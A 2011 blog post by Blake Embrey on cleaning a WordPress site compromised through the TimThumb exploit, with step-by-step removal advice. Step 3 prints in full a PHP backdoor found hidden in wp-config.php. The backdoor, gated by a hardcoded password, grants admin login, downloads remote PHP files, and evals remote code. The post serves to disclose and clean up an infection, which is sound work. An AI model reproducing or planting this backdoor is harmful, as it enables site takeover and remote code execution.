 ```yaml
---
title: Warning - Something's Not Right Here
date: 2011-09-30 12:00
author: Blake Embrey
layout: article
---
```


![Chrome is broken :/](warning.png)

About two days ago, I received a warning from Google saying my website has been exploited and hacked. Of course, the emails they sent I never received, so I didn’t realise I had an issue until about an hour ago. My first reaction was OMG, WTF! I knew it most likely had something to do with the recent TimThumb exploit, but I didn’t even know my theme had TimThumb included. I also looked at the Google diagnostic repost which it linked me to, which I found the malware related to `counter-wordpress.com`.

First of all, I would advise running the script found at [Sucuri](http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html). Then, scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) to find out which pages they have exploited and how. This is the best little site I have found for this, and I would definitely bookmark it for future reference as well if I were you.

Extremely quickly, I jumped to action. This is the exact steps I took and you can take too, to remove the exploits from your code:

1. Delete the following files:

```
wp-admin/upd.php
wp-content/upd.php
```

2. Log into WordPress admin and reinstall your WordPress version. We are focusing on these three files:

```
wp-settings.php
wp-includes/js/jquery/jquery.js
wp-includes/js/l10n.js
```

3. Open "`wp-config.php`" and look for anything that seems out of place. In mine, I found a script which appears to harvest login credentials/cookies, which found on the 2000 or so line. Above and a few thousand lines below were all blank:

```php
if (isset($_GET['pingnow'])&& isset($_GET['pass'])){
if ($_GET['pass'] == '19ca14e7ea6328a42e0eb13d585e4c22'){
if ($_GET['pingnow']== 'login'){
$user_login = 'admin';
$user = get_userdatabylogin($user_login);
$user_id = $user->ID;
wp_set_current_user($user_id, $user_login);
wp_set_auth_cookie($user_id);
do_action('wp_login', $user_login);
}
if (($_GET['pingnow']== 'exec')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
$fnm = md5(rand(0,100)).'.php';
$fp = fopen($fnm, "w");
curl_setopt($ch, CURLOPT_FILE, $fp);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_exec($ch);
curl_close($ch);
fclose($fp);
echo "<SCRIPT LANGUAGE="JavaScript">location.href='$fnm';</SCRIPT>";
}
if (($_GET['pingnow']== 'eval')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$re = curl_exec($ch);
curl_close($ch);
eval($re);
}}}
```

4. In your theme, look for anywhere the TimThumb script may be storing the cached files. These are generally along the lines of:

```
wp-content/themes/theme-name/scripts/cache/external_{MD5Hash}.php
wp-content/themes/theme-name/temp/cache/external_{MD5Hash}.php
```

If you found anything like the above, delete it straight away. If you're not sure, delete every file that isn’t an image.

5. Replace `timthumb.php` with the latest version found at `http://timthumb.googlecode.com/svn/trunk/timthumb.php`.

6. Change your MySQL and login password and update wp-config.php to correspond with the update.

7. Change the secret keys in `wp-config.php`.

8. Clear your browsers cache and cookies.

9. Empty any page caching plugins you may have enabled to push the updates through to your visitors.

Throughout this, I also found a botting script and some spam black hat links. Make sure you scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) once again to make sure you removed all the exploits. When you are sure you have removed everything, submit your site to Google for review. This can be done in the `Diagnostics -> Malware` tab of your Google Webmaster account. To keep up with anymore potential exploits, I would recommend following their fantastic blog found at [blog.sucuri.net](http://blog.sucuri.net/).
